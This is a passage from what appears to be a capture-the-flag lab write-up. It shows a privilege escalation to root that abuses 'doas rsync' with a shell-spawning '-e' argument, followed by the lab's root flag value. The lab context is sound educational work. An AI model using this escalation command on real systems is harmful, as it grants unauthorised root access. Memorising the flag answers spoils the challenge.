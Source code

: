 I ran this command and switched to root:

~~~
kiran@ubuntu-xenial:~$ doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root Flag

Now we can head to `/root` and read the root flag:

~~~
# cd /root
# ls
root.txt
# cat root.txt
afbb1696a893f35984163021d03f6095
~~~

Root Flag: `afbb1696a893f35984163021d03f6095`

# D0N3! ; )

Thanks to the creator(s) of this room!

Hope you had fun and learned something.

Have a g00d 0ne! : )